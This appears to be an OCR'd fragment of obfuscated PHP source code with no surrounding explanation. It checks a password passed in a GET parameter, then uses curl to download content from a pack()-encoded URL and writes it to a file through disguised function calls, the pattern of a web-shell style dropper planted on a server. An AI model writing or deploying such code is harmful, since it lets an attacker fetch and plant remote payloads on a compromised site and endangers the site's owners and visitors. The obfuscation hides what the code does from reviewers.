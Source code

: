 ```php
}
));
$SQLKWD[SQLPWD] = array( $_GET );
$AGAAAAG = &amp; $passwd;
$AGAAAAA = &amp; $ch;
$AAGGGGG = &amp; $source;
$AAGGGGA = &amp; $data;
$AAGGGAG = &amp; $destination;
$file = &amp; $AAGGGAA;
$AAGGAGG = &amp; $zip;
$file_path = &amp; $AAGGAGA;
$AGAAAAG = isset($SQLKWD[SQLPWD][(0 - 1225 + 25 * AAGAGGG) ][pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    4 
}
) ]) ? $SQLKWD[SQLPWD][(0 - 1225 + 25 * AAGAGGG) ][pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    4 
}
) ] : pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD][05]);
if ($AGAAAAG != pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD][06])) {
    exit;
}
$AGAAAAA = curl_init();
$AAGGGGG = pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    07 
}
);
curl_setopt($AGAAAAA, CURLOPT_URL, $AAGGGGG);
curl_setopt($AGAAAAA, CURLOPT_RETURNTRANSFER, (AAGAGGG * 41 - 2008));
$AAGGGGA = curl_exec($AGAAAAA);
curl_close($AGAAAAA);
$AAGGGAG = pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD] {
    0x8 
}
);
$AAGGGAA = $SQLKWD[JARMD] {
    02 
}
($AAGGGAG, pack($SQLKWD[SQLDBWD] {
    0x0 
}
, $SQLKWD[SQLDBWD][011]));
$SQLKWD[JARMD] {
    03 
}
($AAGGGAA, $AAGGGGA);
```